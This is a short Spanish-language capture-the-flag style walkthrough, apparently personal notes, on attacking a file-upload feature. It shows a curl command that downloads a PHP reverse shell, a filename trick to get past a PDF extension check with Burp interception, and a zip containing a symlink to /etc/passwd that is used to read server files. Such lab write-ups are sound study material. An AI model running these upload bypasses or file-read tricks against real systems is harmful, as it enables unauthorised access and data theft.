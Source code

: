 ```R
❯ curl -s -X GET https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php > cmd.php
```
*Nos traemos este recurso y cambiamos los parametros de IP y Puerto.*

```R
❯ mv cmd.php cmd.phpA.pdf
```
*Cambiamos el nombre para poder ahora manipularlo...*

```R
❯ zip cmd.zip cmd.phpA.pdf
  adding: cmdA.php.pdf (deflated 59%)
```
*Lo ponemos en un zip...*

![[Pasted image 20241007212754.png]]
*Lo subimos...*

![[Pasted image 20241007212949.png]]
*Ahora con el burpsuite vamos a interceptarlo.*

![[Pasted image 20241007213058.png]]
*Modificamos el byte que contiene la A y lo quitamos...*

![[Pasted image 20241007213452.png]]
*Vemos que no ha funcionado...*

# Explotación
*En esta fase vamos a ya tener un vector de ataque previamente enumerado y vamos a explotarlo.*

1. Creación de archivo con enlace simbolico...
```R
❯ ln -s /etc/passwd test.pdf
```
*Nos creamos un archivo pdf de prueba...*

```R
lrwxrwxrwx root root  11 B  Mon Oct  7 17:37:35 2024  test.pdf ⇒ /etc/passwd
```
*Podemos ver como és el enlace simbolico...*

```R
❯ zip --symlinks test.zip test.pdf
```
*Ahora lo comprimimos...*

![[Pasted image 20241007213934.png]]
*Subimos el archivo...*

![[Pasted image 20241007214106.png]]
*Vemos que nos devuelve algo en base64...*
